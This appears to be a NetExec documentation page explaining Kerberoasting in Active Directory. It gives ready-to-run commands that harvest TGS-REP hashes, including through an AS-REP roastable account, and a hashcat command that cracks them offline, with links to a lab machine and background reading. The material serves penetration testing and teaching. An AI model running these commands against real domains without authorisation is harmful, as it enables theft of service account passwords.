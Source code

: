 ```yaml
---
description: Retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting
---
```


# Kerberoasting

You can retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique

> The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

{% hint style="warning" %}
To perfom this attack, you need an account on the domain, or an AS-REP roastable account
{% endhint %}

```bash
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```
# Kerberoasting via AS-REP Roasting

> You can also perform Kerberoasting by leveraging an AS-REP roastable account that does not require pre-authentication. This is possible by combining `--no-preauth` and `--kerberoasting`.

```bash
nxc ldap 192.168.0.104 -u harry -p '' --no-preauth kerberoastable.list --kerberoasting output.txt
```

* `-u`: AS-REP roastable user (no pre-auth required).
* `--no-preauth`: Single user or file containing list of users to target with Kerberoasting.

### Cracking with hashcat

```bash
hashcat -m13100 output.txt wordlist.txt
```

### Example

Active machine is a good example to test **Kerberoasting** with NetExec

{% embed url="https://www.hackthebox.eu/home/machines/profile/148" %}

### Useful ressources:

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting" %}

{% embed url="https://en.hackndo.com/kerberoasting/" %}

{% embed url="https://www.semperis.com/blog/new-attack-paths-as-requested-sts/" %}
